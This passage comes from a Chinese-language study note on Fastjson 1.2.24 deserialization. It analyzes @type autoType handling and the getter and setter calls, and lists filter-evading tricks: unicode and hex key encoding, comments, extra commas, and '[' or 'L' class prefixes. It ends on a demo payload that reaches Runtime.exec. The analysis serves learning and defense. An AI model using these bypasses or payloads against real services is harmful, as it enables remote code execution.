                ", age2='" + age2 + '\'' +
                ", age3='" + age3 + '\'' +
                ", age4='" + age4 + '\'' +
                ", prop1_1=" + prop1_1 +
                ", prop1_2=" + prop1_2 +
                ", prop1_3=" + prop1_3 +
                ", prop1_4=" + prop1_4 +
                ", prop2_1=" + prop2_1 +
                ", prop2_2=" + prop2_2 +
                ", prop2_3=" + prop2_3 +
                ", prop2_4=" + prop2_4 +
                '}';
    }
    public void setProp1_3(Properties prop1_3) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop1_3 = prop1_3;
    }
    public void setProp2_3(Properties prop2_3) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop2_3 = prop2_3;
    }
    public Properties getProp1_2() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop1_2;
    }
    public Properties getProp2_2() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop2_2;
    }
    public Properties getProp1_1() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop1_1;
    }
    public void setProp1_1(Properties prop1_1) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop1_1 = prop1_1;
    }
    public Properties getProp2_1() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return prop2_1;
    }
    public void setProp2_1(Properties prop2_1) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.prop2_1 = prop2_1;
    }
    public String getName1() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return name1;
    }
    public void setName1(String name1) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.name1 = name1;
    }
    public String getAge1() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return age1;
    }
    public void setAge1(String age1) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.age1 = age1;
    }
    public String getName2() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return name2;
    }
    public String getAge2() {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        return age2;
    }
    public void setName3(String name3) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.name3 = name3;
    }
    public void setAge3(String age3) {
        String methodName = Thread.currentThread().getStackTrace()
                [1].getMethodName();
        System.out.println(methodName + "() is called");
        this.age3 = age3;
    }
    public FastJsonUser() {
        this.name1 = "rai4over1";
        this.name2 = "rai4over2";
        this.name3 = "rai4over3";
        this.name4 = "rai4over4";
        this.age1 = "a1";
        this.age2 = "a2";
        this.age3 = "a3";
        this.age4 = "a4";
        prop1_1 = new Properties();
        prop1_2 = new Properties();
        prop1_3 = new Properties();
        prop1_4 = new Properties();
        prop1_1.put("prop1_1", "1_1");
        prop1_2.put("prop1_2", "1_2");
        prop1_3.put("prop1_3", "1_3");
        prop1_4.put("prop1_4", "1_4");
        prop2_1 = new Properties();
        prop2_2 = new Properties();
        prop2_3 = new Properties();
        prop2_4 = new Properties();
        prop2_1.put("prop2_1", "2_1");
        prop2_2.put("prop2_2", "2_2");
        prop2_3.put("prop2_3", "2_3");
        prop2_4.put("prop2_4", "2_4");
        System.out.println("User init() is called");
    }
}
```

**非自省的/绑定类的序列化和反序列化**

```java
#序列化
package org.example;

import com.alibaba.fastjson.JSON;
public class Test {
    public static void main(String[] args) {
        FastJsonUser a = new FastJsonUser();
        System.out.println("===========================");
        String jsonstr_a = JSON.toJSONString(a);
        System.out.println(jsonstr_a);
    }
}

#观察输出结果，序列化时，FastJson 会调⽤成员对应的 get ⽅法，被 private 修饰且没有 get ⽅法的成员不会被序列化，被 public 修饰的成员都会被序列化，并且序列化的结果是标准的 JSON 字符串
```

```java
#反序列化
package org.example;

import com.alibaba.fastjson.JSON;
public class Test {
    public static void main(String[] args) {
        String jsonstr_a = " {\"age1\":\"a1\",\"age2\":\"a2\",\"age3\":\"a3\",\"age4\":\"a4\",\"name1\":\"r ai4over1\",\"name2\":\"rai4over2\",\"name3\":\"rai4over3\",\"name4\":\"rai4ove r4\",\"prop1_1\":{\"prop1_1\":\"1_1\"},\"prop1_2\": {\"prop1_2\":\"1_2\"},\"prop1_3\":{\"prop1_3\":\"1_3\"},\"prop1_4\": {\"prop1_4\":\"1_4\"},\"prop2_1\":{\"prop2_1\":\"2_1\"},\"prop2_2\": {\"prop2_2\":\"2_2\"},\"prop2_3\":{\"prop2_3\":\"2_3\"},\"prop2_4\": {\"prop2_4\":\"2_4\"}}";
        System.out.println(jsonstr_a);
        System.out.println("===========================");
        FastJsonUser b = JSON.parseObject(jsonstr_a, FastJsonUser.class);
        System.out.println(b);
    }
}

#在反序列化时，String 类型会调⽤了全部的 setter ，但还额外调⽤了 getProp2_2 。
#publibc 修饰的成员全部赋值， private 修饰的成员则为 NULL 
```

**自省类的反序列化**

- **JSON 标准是不支持自省的，也就是说根据 JSON ⽂本，不知道它包含的对象的类型。**
- FastJson ⽀持⾃省，在序列化时传⼊类型信息 SerializerFeature.WriteClassName ，可以得到能 表明对象类型的 JSON ⽂本。
- **FastJson 的漏洞就是由于这个功能引起的。**

```java
#序列化
#public static String toJSONString(Object object, SerializerFeature.WriteClassName)

package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class Test {
    public static void main(String[] args) {
        FastJsonUser a = new FastJsonUser();
        System.out.println("===========================");
        String jsonstr_a = JSON.toJSONString(a,
                SerializerFeature.WriteClassName);
        System.out.println(jsonstr_a);
    }
}

#输出
User init() is called
===========================
getAge1() is called
getAge2() is called
getName1() is called
getName2() is called
getProp1_1() is called
getProp1_2() is called
getProp2_1() is called
getProp2_2() is called
{
 "@type": "User",
 "age1": "a1",
 "age2": "a2",
 "name1": "rai4over1",
 "name2": "rai4over2",
 "name3": "rai4over3",
 "name4": "rai4over4",
 "prop1_1": {
 "@type": "java.util.Properties",
 "prop1_1": "1_1"
 },
 "prop1_2": {
 "@type": "java.util.Properties",
 "prop1_2": "1_2"
 },
 "prop1_3": {
 "@type": "java.util.Properties",
 "prop1_3": "1_3"
 },
 "prop1_4": 
 "@type": "java.util.Properties",
 "prop1_4": "1_4"
 },
 "prop2_1": {
 "@type": "java.util.Properties",
 "prop2_1": "2_1"
 },
 "prop2_2": {
 "@type": "java.util.Properties",
 "prop2_2": "2_2"
 }
}

#结果和上⽂相同， JSON 字符串中新增 @type 字段名，⽤来表明指定反序列化的⽬标对象类型为 FastJsonUser
```

```java
#反序列化
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
public class Test {
    public static void main(String[] args) {
        String jsonstr_a = " {\"@type\":\"org.example.FastJsonUser\",\"age1\":\"a1\",\"age2\":\"a2\",\"age3\":\"a3\",\"age4\":\"a4\",\"name1\":\"rai4over1\",\"name2\":\"rai4over2\",\"name3\":\"rai4over3\",\"name4\":\"rai4over4\",\"prop1_1\": {\"@type\":\"java.util.Properties\",\"prop1_1\":\"1_1\"},\"prop1_2\": {\"@type\":\"java.util.Properties\",\"prop1_2\":\"1_2\"},\"prop1_3\": {\"@type\":\"java.util.Properties\",\"prop1_3\":\"1_3\"},\"prop1_4\": {\"@type\":\"java.util.Properties\",\"prop1_4\":\"1_4\"},\"prop2_1\": {\"@type\":\"java.util.Properties\",\"prop2_1\":\"2_1\"},\"prop2_2\": {\"@type\":\"java.util.Properties\",\"prop2_2\":\"2_2\"},\"prop2_3\": {\"@type\":\"java.util.Properties\",\"prop2_3\":\"2_3\"},\"prop2_4\": {\"@type\":\"java.util.Properties\",\"prop2_4\":\"2_4\"}}";
        System.out.println(jsonstr_a);
        System.out.println("===========================");
        //User b = JSON.parseObject(jsonstr_a, User.class);
        JSONObject b = JSON.parseObject(jsonstr_a);
        //Object b = JSON.parse(jsonstr_a);
        System.out.println(b);
    }
}

```

- **调⽤了全部的 getter ⽅法， setter ⽅法全部调⽤，但 getProp2_2 额外调⽤⼀次（共调⽤了两次）。**

- **使⽤ JSON.parse 函数也同样能进⾏反序列化**
    - 反序列化时的 getter 、 setter 调⽤情况和非⾃省的⼀样，会调⽤了全部的 setter
    - publibc 修饰的成员全部赋值， **private 修饰的成员则为 NULL** 。（在找寻利用链时会影响）

**Feature.SupportNonPublicField**

-  private 修饰的成员反序列化时为 NULL，怎么解决这个问题呢？

- 对于没有 set ⽅法的 private 成员，反序列化时传递 Feature.SupportNonPublicField 即可完成赋值
- ` User b = JSON.parseObject(jsonstr_a, Feature.SupportNonPublicField);`

##### **fastJson机制总结**

- 由于Fastjson在 1.2.24 版本下默认开启 autoType ，导致攻击者可以控制 @type 中 的类为任意类，此时如果某个类的 get 、 set 等⽅法中存在漏洞，就可以被恶意利⽤，与Jackson⼀致，不过不同的是，Fastjson设计 autoType 并不是为了兼 容Java的某些特性，⽽是单纯为了开发者节约时间...然⽽Jackson设计 Default Typing 是为了能够兼容Java中多态的特性。

- **这个过程会被叫做fastjson的反序列化过程，注意不要把这个过程跟java反序列化过程混为一谈。它们两个是同等级的存在，而不是前者基于后者之上。也就是说readObject()反序列化利用点那一套在这根本不适用。**相应的type加载任意类+符合条件的setter与getter变成了反序列化利用点（个人总结的三要素中的反序列化漏洞触发点）。

- `parseObject(String text, Class clazz)` ，构造⽅法 + setter + 满⾜条件额外的 getter 会被调用。

    - **这种情况下同样存在漏洞**，但是因为传入了clazz的类，所以不是使用最原始的poc。
    - `{"a":{poc}}`，后面在1.2.24漏洞里面会讲为什么这样

- **`parse(String text)` ，构造⽅法 + setter + 满足条件额外的 getter**‘

    - （有些漏洞利用在get函数里面，parse()不会调用这个函数，所以就要利用JSONObject对象的 toString() 方法实现了突破）
    - 后面再讲

- `parseObject(String text)` ，构造⽅法 + setter + **getter** + 满⾜条件额外 的 getter。**就比上面多了getter全部调用**

    - ```javascript
        public static JSONObject parseObject(String text) {
            Object obj = parse(text);
            if (obj instanceof JSONObject) {
            	return (JSONObject) obj;
            }
        
            return (JSONObject) JSON.toJSON(obj);
        }
        ```

    - 可以看到`parseObject`调用的也是`parse`，只是最后还调用了`toJSON`方法。这也就是为什么会多调用getter方法。


##### **parse方法源码分析**

- 下个断点慢慢分析

    - ```java
        package fastjson;
        
        import com.alibaba.fastjson.JSON;
        import com.alibaba.fastjson.JSONObject;
        
        class User{
            private String name;
            private int age;
            private Flag flag;
            public User(){
                System.out.println("User constructor has called.");
                this.name = "p1g3";
                this.age = 19;
                this.flag = new Flag();
            }
            public String getName() {
                System.out.println("getName has called.");
                return name;
            }
            public void setName(String name) {
                System.out.println("setName has called.");
                this.name = name;
            }
            public int getAge() {
                System.out.println("getAge has called.");
                return age;
            }
            public void setAge(int age) {
                System.out.println("setAge has called.");
                this.age = age;
            }
            public Flag getFlag() {
                System.out.println("getFlag has called.");
                return flag;
            }
            public void setFlag(Flag flag) {
                System.out.println("setFlag has called.");
                this.flag = flag;
            }
            @Override
            public String toString() {
                return "User{" +
                        "name='" + name + '\'' +
                        ", age=" + age +
                        ", flag=" + flag +
                        '}';
            }
        }
        class Flag{
            private String flag;
            public Flag(){
                System.out.println("Flag constructor has called.");
                this.flag = "flag{d0g3_learn_java}";
            }
            public String getFlag() {
                System.out.println("getFlag has called.");
                return flag;
            }
            public void setFlag(String flag) {
                System.out.println("setFlag has called.");
                this.flag = flag;
            }
        }
        
        public class FJ1_2_24 {
            public static void main(String[] args) {
                User user = new User();
                String jsonstr = "{\"@type\":\"fastjson.User\",\"age\":19,\"flag\":{\"flag\":\"flag{d0g3_learn_java}\"},\"name\":\"p1g3\"}";
        
                //反序列化
                Object b = JSON.parse(jsonstr);
                //Object b = JSON.parse(jsonstr_a);
                System.out.println(b);
        
        
            }
        }
        
        ```

- 在第⼀⾏通过 parse ⽅法将JSON字符串转为对象：

    - ```java
        public static Object parse(String text) {
        	return parse(text, DEFAULT_PARSER_FEATURE);
        }
        ```

    - ```java
        public static Object parse(String text, int features) {
             if (text == null) {
             	return null;
             } else {
                 DefaultJSONParser parser = new DefaultJSONParser(text, ParserConfig.getGlobalInstance(), features);
                 Object value = parser.parse();
                 parser.handleResovleTask(value);
                 parser.close();
                 return value;
             }
         }
        
        ```

-  parse ⽅法中，会⾸先创建⼀个 `DefaultJSONParser` 对象，在创建对象时有这么⼏⾏代码需要注意：

    - ```
            public DefaultJSONParser(final Object input, final JSONLexer lexer, final ParserConfig config){
                this.lexer = lexer;
                this.input = input;
                this.config = config;
                this.symbolTable = config.symbolTable;
        
                int ch = lexer.getCurrent();
                if (ch == '{') {
                    lexer.next();
                    ((JSONLexerBase) lexer).token = JSONToken.LBRACE;//12
                } else if (ch == '[') {
                    lexer.next();
                    ((JSONLexerBase) lexer).token = JSONToken.LBRACKET;//14
                } else {
                    lexer.nextToken(); // prime the pump
                }
            }
        ```

    - 在这⾥会先判断当前解析的字符串是 { 还是 [ ，如果是这两者则设置为对应的token。随后通过 next 向下偏移。

- 随后通过 DefaultJSONParser#parse ⽅法获取对象，该⽅法中⾸先会通过 switch 对当前的token进⾏各种处理，因为前⾯的token被设置为LBRACE了，所以在这⾥ 会进⼊到 case LBRACE 中：

    - ```java
        case LBRACE:
            JSONObject object = new JSONObject(lexer.isEnabled(Feature.OrderedField));
            return parseObject(object, fieldName);
        ```

- 在第⼀⾏会创建⼀个空的JSONObject，随后会通过 `parseObject` ⽅法进⾏解析，从这⾥开始代码就变成⾃带混淆的了，⼀个 parseObject ⽅法⼏百⾏代码， 完全没有任何的分类处理，写的很是难看，不过这⾥⼜极其重要，就必须得每⾏都看，挺头疼的。

- 在该⽅法中，通过 for循环来遍历JSON中的每⼀个字符串并对其进⾏解析

    - ```java
        try {
            boolean setContextFlag = false;
            for (;;) {
                lexer.skipWhitespace();
                char ch = lexer.getCurrent();
                if (lexer.isEnabled(Feature.AllowArbitraryCommas)) {
                    while (ch == ',') {
                        lexer.next();
                        lexer.skipWhitespace();
                        ch = lexer.getCurrent();
                    }
            }
        
        ```

    - 可以发现在第⼀⾏会调⽤ skipWhitespace ⽅法，从⽅法名应该就可以理解该⽅法主要会做什么了

        - ```java
                public final void skipWhitespace() {
                    for (;;) {
                        if (ch <= '/') {
                            if (ch == ' ' || ch == '\r' || ch == '\n' || ch == '\t' || ch == '\f' || ch == '\b') {
                                next();
                                continue;
                            } else if (ch == '/') {
                                skipComment();
                                continue;
                            } else {
                                break;
                            }
                        } else {
                            break;
                        }
                    }
                }
            ```

        - 从代码中可以看出来，该⽅法会判断当前解析的字符是否为 、 \r 、 \n 、 \t 、 \f 、 \b 、 / ，如果是以上字符，则会跳过这些字符的解析，将偏移向前， 从这⾥可以看出来，默认情况下Fastjson不会解析JSON中的空格以及注释，⽐如下⾯这⼏种情况实际上是等价的

            - ```json
                {"@type":"com.p1g3.fastjson"}
                { "@type":"com.p1g3.fastjson"}
                {/**/"@type":"com.p1g3.fastjson"}
                ```

    - 在忽略完这些字符后，会先获取当前解析的字符并判断是否开启了 AllowArbitraryCommas 选项，默认为true，如果开启了，则会忽略JSON中多个连续的逗 号，⽐如下⾯⼏种情况是等价的：

        - ```json
            "@type":"com.p1g3.fastjson"}
            {,,,,"@type":"com.p1g3.fastjson"}
            ```

- **上⾯这⼏种情况就可以进⾏⼀些简单的绕过，比如某个正则验证了JSON是否以 {"@type 开头，此时就可以通过上⾯的两种解析特性先简单绕过⼀次，因为 Feature是⼀个枚举类，其中包含了如下的这些属性：**

    - ```java
        public enum Feature {
         AutoCloseSource,
         AllowComment,
         AllowUnQuotedFieldNames,
         AllowSingleQuotes,
         InternFieldNames,
         AllowISO8601DateFormat,
         AllowArbitraryCommas,
         UseBigDecimal,
         IgnoreNotMatch,
         SortFeidFastMatch,
         DisableASM,
         DisableCircularReferenceDetect,
         InitStringFieldAsEmpty,
         SupportArrayToBean,
         OrderedField,
         DisableSpecialKeyDetect,
         UseObjectArray,
         SupportNonPublicField;
        ```

    - 当时⽐较好奇这每个属性都对应是做什么的，以及哪些属性默认是开启的，所以去⽹上查了资料，获得下⾯⼀份表

        - 

        - 

        - 

    - 虽然表中记录的 Feature.AllowArbitraryCommas 是默认关闭的，但毕竟实践得真知，⾄少在我使⽤的 1.2.24 版本中是默认开启的。

- 因为⽬前解析到了 `{` 后的⼀位 " ，所以进⼊到了 if 语句块中

    - ```java
        if (ch == '"') {
            key = lexer.scanSymbol(symbolTable, '"');
            lexer.skipWhitespace();
            ch = lexer.getCurrent();
            if (ch != ':') {
            	throw new JSONException("expect ':' at " + lexer.pos() + ", name " + key);
        	}
        }
        ```

    - 在这⾥⾸先会通过 scanSymbol ⽅法，该⽅法主要做的就是获取⽬前的字符以及到第⼆个参数为⽌的字符，比如此时的第⼆个参数是⼀个双引号，那么就会获取到双引号之前的字符，比如 `"@type"` ，此时获取到的内容就是 `@type` 

    - 这⾥还有⼀个⽐较重要的地⽅就是他会对获取到的字符串进⾏unicode解码以及⼗六进制解码

        - ```java
            case 'x':
                char x1 = ch = next();
                char x2 = ch = next();
            
                int x_val = digits[x1] * 16 + digits[x2];
                char x_char = (char) x_val;
                hash = 31 * hash + (int) x_char;
                putChar(x_char);
                break;
            case 'u':
                char c1 = chLocal = next();
                char c2 = chLocal = next();
                char c3 = chLocal = next();
                char c4 = chLocal = next();
                int val = Integer.parseInt(new String(new char[] { c1, c2, c3, c4 }), 16);
                hash = 31 * hash + val;
                putChar((char) val);
            ```

    - **所以在JSON中的键实际上可以转成unicode与⼗六进制两种形式：**

        - ```java
            {"@type":"com.p1g3.fastjson"} == {"\u0040\u0074\u0079\u0070\u0065":"com.p1g3.fastjson"} ==
            {"\x40\x74\x79\x70\x65":"com.p1g3.fastjson"}
            ```

- 在上述代码内获取到 key 后，同样会调⽤⼀次 `skipWhitespace` ⽅法，笔者认为，**Fastjson会忽略引号外的⼀切空格、注释等相关代码**。随后会判断⽬前获取到 的key是否为 `JSON.DEFAULT_TYPE_KEY` ， JSON.DEFAULT_TYPE_KEY 对应为 `@type` ：

    - ```java
        if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
             ref = lexer.scanSymbol(this.symbolTable, '"');
             Class<?> clazz = TypeUtils.loadClass(ref, this.config.getDefaultClassLoader());
             if (clazz != null) {
                 lexer.nextToken(16);
                 if (lexer.token() != 13) {
                 this.setResolveStatus(2);
                 if (this.context != null && !(fieldName instanceof Integer)) {
                 this.popContext();
             }
             if (object.size() > 0) {
                 instance = TypeUtils.cast(object, clazz, this.config);
                 this.parseObject(instance);
                 thisObj = instance;
                 return thisObj;
             }
             ObjectDeserializer deserializer = this.config.getDeserializer(cljavazz);
             thisObj = deserializer.deserialze(this, clazz, fieldName);
             return thisObj;
             }
        ```

    - 此时该条件满⾜，会同样通过 scanSymbol 的⽅式获取值，**所以JSON中的值也是可以通过 unicode 、⼗六进制编码等⽅式去替换的**，这⾥获取到的 typename为 @type 所指定的值，即 fastjson.User ，**随后通过 `TypeUtils.loadClass` ⽅法加载Class：**。

    - ```java
            public static Class<?> loadClass(String className, ClassLoader classLoader) {
                if (className == null || className.length() == 0) {
                    return null;
                }
        
                Class<?> clazz = mappings.get(className);
        
                if (clazz != null) {
                    return clazz;
                }
        
                if (className.charAt(0) == '[') {
                    Class<?> componentType = loadClass(className.substring(1), classLoader);
                    return Array.newInstance(componentType, 0).getClass();
                }
        
                if (className.startsWith("L") && className.endsWith(";")) {
                    String newClassName = className.substring(1, className.length() - 1);
                    return loadClass(newClassName, classLoader);
                }
        ```

    - 开头会有⼏个处理，⾸先会在 mappings 中尝试去通过 className 获取Class，mappings中存放着⼀些Java内置类：

        - 

        - 如果此时获取不到，则会判断ClassName是否以 `[` 开头，如果是则通过`loadClass`⽅法加载Class，不过传⼊的ClassName会把 [ 给去掉，后⾯的 `L` 也是⼀个 原理。也就是又重新调用这个函数，**但是className会去掉前面的`[`或者`L`。这也又可以存在一个绕过过滤了。**

        - 因为这⾥的后两个条件均不满⾜，且第⼀种从 mapping 获取类的⽅式是获取不到的，所以最后会通过ClassLoader的⽅式去加载Class

            - ```java
                ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
                
                if (contextClassLoader != null) {
                    clazz = contextClassLoader.loadClass(className);
                    mappings.put(className, clazz);
                
                    return clazz;
                }
                ```

        - ⾄此，就获得了⼀个 @type 所指定类的Class对象。然后返回这个clazz。

            - 

- 继续回到parseObject方法。在下边的代码中，会通过该Class对象获取到对应的Deserializer，并调⽤其deserialize⽅法：

    - ```java
        ObjectDeserializer deserializer = config.getDeserializer(clazz);
        return deserializer.deserialze(this, clazz, fieldName);
        ```

    - 先跟 `getDeserializer` ⽅法，代码⽐较⻓，下⾯只截⼀些重点功能以及调⽤栈，⾸先该⽅法会从内置的Deserializer=>Class的Map中寻找Class对应的 Deserializer，因为没找到所以会通过其他⽅式去查找。在后⾯的代码中有⼀处⿊名单的判断：

        - ```java
                public ObjectDeserializer getDeserializer(Type type) {
                    ObjectDeserializer derializer = this.derializers.get(type);
                    if (derializer != null) {
                        return derializer;
                    }
            
                    if (type instanceof Class<?>) {
                        return getDeserializer((Class<?>) type, type);//跳转到这里
                    }
            
                    if (type instanceof ParameterizedType) {
                        Type rawType = ((ParameterizedType) type).getRawType();
                        if (rawType instanceof Class<?>) {
                            return getDeserializer((Class<?>) rawType, type);
                        } else {
                            return getDeserializer(rawType);
                        }
                    }
            ```

        - **进入上面的重载方法,黑名单判断**

            -  ```java
                         String className = clazz.getName();
                         className = className.replace('$', '.');
                         for (int i = 0; i < denyList.length; ++i) {
                             String deny = denyList[i];
                             if (className.startsWith(deny)) {
                                 throw new JSONException("parser deny : " + className);
                             }
                         }
                 ```

        - 在这⾥会判断Class是否在⿊名单中，如果在就直接抛出异常⽽不会继续寻找Deserializer，盲猜这⾥应该就是后续Fastjson漏洞修复加⿊明单的地⽅，**只不过 1.2.24 版本中的⿊名单只有Thread类**：

            - 

        - 随后会与Class与他能够⽀持的⼀些Class进⾏匹配，如果匹配上了就通过对应的⽅式创建Deserializer，如果全都匹配不上则通过 createJavaBeanDeserializer ⽅法创建⼀个JavaBeanDeserializer：

        - ⽹上的⽂章说的Fastjson会⽤到 asm 也是在此⽅法中，不过在我当前的环境下，会因为下⾯的判断不通过导致 asm 被设置为了False

            - ```java
                if (!Modifier.isPublic(superClass.getModifiers())) {
                 asmEnable = false;
                 break;
                 }
                ```

        - 所以最终在我的环境下实际上是通过直接创建⼀个 JavaBeanDeserializer 对象来获取的Deserializer：

            - ```java
                if (!asmEnable) {
                	return new JavaBeanDeserializer(this, clazz, type);
                }
                ```

            - ```java
                public JavaBeanDeserializer(ParserConfig config, Class<?> clazz, Type type){
                        this(config, JavaBeanInfo.build(clazz, type, config.propertyNamingStrategy));
                }
                ```

            - 在build方法中

                - 在创建对象时，⾸先会调⽤ build ⽅法获取 JavaBeanInfo ，该⽅法中会获取Class对应的Field、Method以及Constructor

                -  ```java
                     Field[] declaredFields = clazz.getDeclaredFields();
                     Method[] methods = clazz.getMethods();
                     Constructor<?> defaultConstructor = getDefaultConstructor(builderClass == null ? clazz : builderClass);
                     ```

                - Constructor并不⼀定是⽆参构造⽅法，它会通过下⾯⼏种⽅式获取Constructor

                    - ```java
                        if (constructor.getParameterTypes().length == 0) {
                         defaultConstructor = constructor;
                        if ((types = constructor.getParameterTypes()).length == 1 && types[0].equals(clazz.getDeclaringClass())) {
                         defaultConstructor = constructor;
                        ```

                    - 满⾜上⾯两个条件中的任何⼀个，就会被获取到，不过如果某个类中已经有了⽆参构造⽅法，就不会再进⼊第⼆个判断⽽是直接返回

                - 在获取到Constructor后，会通过反射为其设置权限：

                    - ```
                        if (defaultConstructor != null) {
                        	TypeUtils.setAccessible(defaultConstructor);
                        }
                        ```

                - 随后会通过 for 循环的⽅式去遍历⽅法列表，并判断⽅法是否满⾜下⾯的条件：

                    - ```
                        if (methodName.length() >= 4 && !Modifier.isStatic(method.getModifiers()) && (method.getReturnType().equals(Void.TYPE)
                        || method.getReturnType().equals(method.getDeclaringClass())))
                        ```

                - 如果都满⾜则会在if语句块⾥判断⽅法是否以 set 开头，**Fastjson这⾥有⼀个有意思的处理，他不是通过Field去获取对应的⽅法，⽽是获取 set 开头的⽅法，并 通过⽅法规则来获取Field，⽐如 setAge ，最终获取到的 Field 为 age** ，如果是布尔类型的Field，最终获取到的为 isAge ，对应的代码如下：

                -  ```java
                     
                     ropertyName = Character.toLowerCase(methodName.charAt(3)) + methodName.substring(4);
                      
                     Field field = TypeUtils.getField(clazz, propertyName, declaredFields);
                     if (field == null && types[0] == Boolean.TYPE) {
                      isFieldName = "is" + Character.toUpperCase(propertyName.charAt(0)) + propertyName.substring(1);
                      field = TypeUtils.getField(clazz, isFieldName, declaredFields);
                     }
                     ```

                - 着再来看看该⽅法中获取 get ⽅法的条件：

                    - ```java
                        for (Method method : clazz.getMethods()) { // getter methods
                            ............................................
                            if (methodName.length() >= 4 && !Modifier.isStatic(method.getModifiers()) && methodName.startsWith("get") &&
                            Character.isUpperCase(methodName.charAt(3)) && method.getParameterTypes().length == 0 &&
                            (Collection.class.isAssignableFrom(method.getReturnType()) || Map.class.isAssignableFrom(method.getReturnType()) ||
                            AtomicBoolean.class == method.getReturnType() || AtomicInteger.class == method.getReturnType() || AtomicLong.class ==
                            method.getReturnType())
                        
                        ```

                - ⽐较重要的⼏点： 

                    - Method不是静态的 
                    - Method的返回值⻓度为0 
                    - Method的返回类型要继承⾃上⾯所写的类 

                - 如果这些条件满⾜，则该 get ⽅法就会被获取到，最终完成上⾯所有步骤后，获取到的JavaBeanInfo类如下

                    - 

            - 在创建 JavaBeanDeserializer 对象的过程中，会对前⾯获取到的 JavaBeanInfo 获取到的信息进⾏下⼀步处理，⽐如在该⽅法中会创建Field对应的 Deserializer：

                - ```java
                     public FieldDeserializer createFieldDeserializer(ParserConfig mapping, //
                                                                         JavaBeanInfo beanInfo, //
                                                                         FieldInfo fieldInfo) {
                            Class<?> clazz = beanInfo.clazz;
                            Class<?> fieldClass = fieldInfo.fieldClass;
                        
                            Class<?> deserializeUsing = null;
                            JSONField annotation = fieldInfo.getAnnotation();
                            if (annotation != null) {
                                deserializeUsing = annotation.deserializeUsing();
                                if (deserializeUsing == Void.class) {
                                    deserializeUsing = null;
                                }
                            }
                        
                            if (deserializeUsing == null && (fieldClass == List.class || fieldClass == ArrayList.class)) {
                                return new ArrayListTypeFieldDeserializer(mapping, clazz, fieldInfo);
                            }
                        
                            return new DefaultFieldDeserializer(mapping, clazz, fieldInfo);
                        }
                    ```

            - 在Field的Class不为上⾯所示的Class的情况下，创建的FieldDeserializer实际上为 DefaultFieldDeserializer ，最终获取到的 JavaBeanDeserializer 是这样 的：

                - 

            - 其中包含了 JavabeanInfo 以及 FieldDeserializer ，随后会调⽤该 Deserializer 的 deserialize ⽅法，该⽅法篇幅较⻓，我也仅截取关键 部分

                - 在解析第⼀个Field时，会先通过前⾯获取到的构造⽅法创建⼀个对象

                    - ```
                        if (object == null && fieldValues == null) {
                            object = createInstance(parser, type);
                            if (object == null) {
                            	fieldValues = new HashMap<String, Object>(this.fieldDeserializers.length);
                            }
                            childContext = parser.setContext(context, object, fieldName);
                        }
                        ```

                - 

                - 随后会通过 FieldDeserializer#setValue 的⽅式去赋值：

                    - ```
                        fieldDeser.setValue(object, fieldValue);
                        ```

                - 该⽅法会通过⼀些条件判断来判断是否要调⽤ get 、 set 等⽅法，调⽤ get 的⽅法上⾯笔者已经记录过了，就是当满⾜返回值为那⼏个类时就会进⾏调⽤，如 果有 set ⽅法了，就会通过反射的⽅式调⽤ set ⽅法去赋值

                    - ```
                        method.invoke(object, value);
                        ```

                - 如果没有 set ⽅法，就会通过反射的⽅式为 Field 赋值

                    - ```
                        field.set(object, value);
                        ```

                - 那么如果某个属性的Type为⼀个第三⽅类，它是如何处理的？通过阅读源码我发现，如果属性是⼀个⾮原⽣JDK中的类，就会再次调 ⽤ JavaBeanDeserializer#deserialize ⽅法去获得Value，也就是说会把上⾯所记录的步骤都重复⼀次

                    - ```
                        if (this.fieldValueDeserilizer instanceof JavaBeanDeserializer) {
                         JavaBeanDeserializer javaBeanDeser = (JavaBeanDeserializer)this.fieldValueDeserilizer;
                         value = javaBeanDeser.deserialze(parser, fieldType, this.fieldInfo.name, this.fieldInfo.parserFeatures);
                        
                        ```

- **最后赋值的时候是⼀样的，还是上⾯ setValue 的步骤，⾄此，Fastjson是如何从JSON还原对象的，我们已经通过源码分析的⽅式搞清楚了，下⾯总结⼀下**
    - **JSON中的键&值均可使⽤unicode编码 & ⼗六进制编码（可⽤于绕过WAF检测）** 
    - **JSON解析时会忽略双引号外的所有空格、换行、注释符（可⽤于绕过WAF检测）**
    -  **为属性赋值相关的代码位于setValue⽅法中** 
    - **反序列化时是可以调⽤ get ⽅法的，只是有⼀定的限制**

##### 一个简单的fastjson漏洞利用demo

- ```java
    package fastjson;
    import com.alibaba.fastjson.JSON;
    import java.io.IOException;
    public class Fj1_2_24 {
        public static void main(String[] args) {
            String json_payload = "{\"@type\":\"fastjson.Payload\",\"command\":\"calc\"}";
            JSON.parseObject(json_payload);
        }
    }
    class Payload{
        private String command;
        public void setCommand(String command) throws IOException {
            Runtime.getRuntime().exec(command);
